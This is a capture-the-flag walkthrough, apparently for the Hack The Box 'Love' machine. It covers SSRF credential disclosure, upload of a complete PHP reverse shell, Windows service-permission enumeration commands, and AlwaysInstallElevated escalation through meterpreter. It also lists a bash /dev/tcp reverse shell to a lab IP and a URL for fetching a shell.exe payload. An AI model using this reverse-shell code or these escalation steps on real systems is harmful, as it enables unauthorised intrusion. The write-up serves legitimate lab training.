 # love

![Love.png](love/Love.png)

### 05/02/2021

Running nmap at  first to discover open port and services versions: 

![love/Untitled.png](love/Untitled.png)

First contact with the website:

![love/Untitled%201.png](love/Untitled%201.png)

In the URL input we can try a SSRF vulnerability to access internal system and ports: It shows admin credentials: 

![love/Untitled%202.png](love/Untitled%202.png)

Into /admin directory we use the credentials to login.

![love/Untitled%203.png](love/Untitled%203.png)

This is a vote system and have some alternatives to input malicious codes: 

![love/Untitled%204.png](love/Untitled%204.png)

[https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/minified/php_reverse_shell_mini.php](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/minified/php_reverse_shell_mini.php)

let's try PHP reverse shell in the new candidate:

```jsx
<?php class Sh{private $a=null;private $p=null;private $os=null;private $sh=null;private $ds=array(0=>array('pipe','r'),1=>array('pipe','w'),2=>array('pipe','w'));private $o=array();private $b=1024;private $c=0;private $e=false;public function __construct($a,$p){$this->a=$a;$this->p=$p;if(stripos(PHP_OS,'LINUX')!==false){$this->os='LINUX';$this->sh='/bin/sh';}else if(stripos(PHP_OS,'WIN32')!==false||stripos(PHP_OS,'WINNT')!==false||stripos(PHP_OS,'WINDOWS')!==false){$this->os='WINDOWS';$this->sh='cmd.exe';$this->o['bypass_shell']=true;}else{$this->e=true;echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";}}private function dem(){$e=false;@error_reporting(0);@set_time_limit(0);if(!function_exists('pcntl_fork')){echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";}else if(($p=@pcntl_fork())<0){echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";}else if($p>0){$e=true;echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";}else if(posix_setsid()<0){echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";}else{echo "DAEMONIZE: Completed successfully!\n";}@umask(0);return $e;}private function d($d){$d=str_replace('<','&lt;',$d);$d=str_replace('>','&gt;',$d);echo $d;}private function r($s,$n,$b){if(($d=@fread($s,$b))===false){$this->e=true;echo"STRM_ERROR: Cannot read from ${n}, script will now exit...\n";}return $d;}private function w($s,$n,$d){if(($by=@fwrite($s,$d))===false){$this->e=true;echo"STRM_ERROR: Cannot write to ${n}, script will now exit...\n";}return $by;}private function rw($i,$o,$in,$on){while(($d=$this->r($i,$in,$this->b))&&$this->w($o,$on,$d)){if($this->os==='WINDOWS'&&$on==='STDIN'){$this->c+=strlen($d);}$this->d($d);}}private function brw($i,$o,$in,$on){$s=fstat($i)['size'];if($this->os==='WINDOWS'&&$in==='STDOUT'&&$this->c){while($this->c>0&&($by=$this->c>=$this->b?$this->b:$this->c)&&$this->r($i,$in,$by)){$this->c-=$by;$s-=$by;}}while($s>0&&($by=$s>=$this->b?$this->b:$s)&&($d=$this->r($i,$in,$by))&&$this->w($o,$on,$d)){$s-=$by;$this->d($d);}}public function rn(){if(!$this->e&&!$this->dem()){$soc=@fsockopen($this->a,$this->p,$en,$es,30);if(!$soc){echo"SOC_ERROR: {$en}: {$es}\n";}else{stream_set_blocking($soc,false);$proc=@proc_open($this->sh,$this->ds,$pps,'/',null,$this->o);if(!$proc){echo "PROC_ERROR: Cannot start the shell\n";}else{foreach($pps as $pp){stream_set_blocking($pp,false);}@fwrite($soc,"SOCKET: Shell has connected! PID: ".proc_get_status($proc)['pid']."\n");do{if(feof($soc)){echo "SOC_ERROR: Shell connection has been terminated\n";break;}else if(feof($pps[1])||!proc_get_status($proc)['running']){echo "PROC_ERROR: Shell process has been terminated\n";break;}$s=array('read'=>array($soc,$pps[1],$pps[2]),'write'=>null,'except'=>null);$ncs=@stream_select($s['read'],$s['write'],$s['except'],null);if($ncs===false){echo "STRM_ERROR: stream_select() failed\n";break;}else if($ncs>0){if($this->os==='LINUX'){if(in_array($soc,$s['read'])){$this->rw($soc,$pps[0],'SOCKET','STDIN');}if(in_array($pps[2],$s['read'])){$this->rw($pps[2],$soc,'STDERR','SOCKET');}if(in_array($pps[1],$s['read'])){$this->rw($pps[1],$soc,'STDOUT','SOCKET');}}else if($this->os==='WINDOWS'){if(in_array($soc,$s['read'])){$this->rw($soc,$pps[0],'SOCKET','STDIN');}if(fstat($pps[2])['size']){$this->brw($pps[2],$soc,'STDERR','SOCKET');}if(fstat($pps[1])['size']){$this->brw($pps[1],$soc,'STDOUT','SOCKET');}}}}while(!$this->e);foreach($pps as $pp){fclose($pp);}proc_close($proc);}fclose($soc);}}}}echo '<pre>';$sh=new Sh('127.0.0.1',9000);$sh->rn();echo '</pre>';unset($sh);/*@gc_collect_cycles();*/ ?>
```

Upload the reverse shell.

![love/Untitled%205.png](love/Untitled%205.png)

With that we received the reverse connection, now let1s explore the machine.

![love/Untitled%206.png](love/Untitled%206.png)

Reading some files:

![love/Untitled%207.png](love/Untitled%207.png)

Finding the user flag:

![love/Untitled%208.png](love/Untitled%208.png)

```jsx
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Article to some windows privilege escalation: 

[https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)

Using winpeas we have the capacity of Always Install Elevated privilege escalation

![love/Untitled%209.png](love/Untitled%209.png)

if we have the 0x01 can make the escalation

Create the reverse shell to get in metasploit.

![love/Untitled%2010.png](love/Untitled%2010.png)

Create reverse exe, start multi handler in metasploit and invoke in powershell on the windows side.

![love/Untitled%2011.png](love/Untitled%2011.png)

Make the multi handler with payload meterpreter:

```jsx
windows/meterpreter/reverse_tcp
```

Escalate:

![love/Untitled%2012.png](love/Untitled%2012.png)

Success

![love/Untitled%2013.png](love/Untitled%2013.png)

![love/Untitled%2014.png](love/Untitled%2014.png)

```jsx
10.10.10.239 
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in

445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)

Vote Admin Creds admin:@LoveIsInTheAir!!!! 
10.10.14.185",3332

0<&196;exec 196<>/dev/tcp/10.10.14.185/3332; sh <&196 >&196 2>&196

http://10.10.14.185:7773/shell.exe
```

[https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1)

[https://pentestlab.blog/2017/02/28/always-install-elevated/](https://pentestlab.blog/2017/02/28/always-install-elevated/)